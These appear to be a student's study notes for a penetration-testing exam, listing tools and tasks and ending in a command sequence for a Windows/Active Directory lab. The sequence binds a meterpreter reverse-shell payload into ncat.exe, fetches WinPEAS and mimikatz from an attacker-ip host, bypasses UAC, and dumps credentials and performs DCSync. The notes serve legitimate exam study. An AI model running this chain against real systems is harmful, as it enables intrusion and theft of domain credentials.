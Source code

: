 - What is metasploit and how it works
- nmap what is the difference between -sC and -sV (sC is for scripts, sV is for version)

- Nessus - practical task to analyze the output of Nessus!!!
  - Driftnet - theoretical - homework (Man in the middle)

### Summary of needed tools

- Nessus
- Bloodhound
- aircrack-ng
- Metasploit
- Hashcat

### Exam Tasks

- Analyzing Bloodhound path
  - Finding user who can perform DCSync bit its not a domain/enterprise admin
  - Finding attack paths from specific user
- Analyzing Nessus Findings (search for public exploits)
- Crack hashes with Hashcat
- Crack WiFi password with aircrack-ng
- Analyzing vulnerabilities for local privilege escalation
  - Analyzing WinPEAS, WinPwn, LinPEAS output for potential privesc vectors
- Performing EXE binding
  
  ```bash
  # On the Host machine
  https://github.com/cyberisltd/NcatPortable/raw/master/ncat.exe
  msfvenom -x ncat.exe -p windows/x64/meterpreter_reverse_tcp LHOST=eth0 LPORT=443 -f exe -o ncat_modified.exe
  mfsconsole
  use exploit/multi/handler
  set payload windows/x64/meterpreter_reverse_tcp
  set LHOST eth0
  set LPORT 443
  exploit
  # On the target machine run the ncat_modified.exe
  # On the host machine
  # Download WinPEAS and server it with python
  python3 -m http.server 80
  # On the target machine
  shell
  powershell
  iwr http://<attacker-ip>/winpeas.exe -outfile winpeas.exe
  .\winpeas.exe
  # Privilege escalation via metasploit on host machine
  # use exploit/windows/local/service_permissions_privesc
  use exploit/windows/local/bypassuac_sluihijack
  SET SESSION 1
  # Now we have a meterpreter session with SYSTEM privileges
  # Download mimikatz on the target machine
  powershell iwr http://<attacker-ip>/mimikatz.exe -outfile mimikatz.exe
  .\mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords
  # Perform DCSync
  lsadump::dcsync /domain:<FQDN> /user:username
  ```

TODO: Try WinPwn (3, 2)
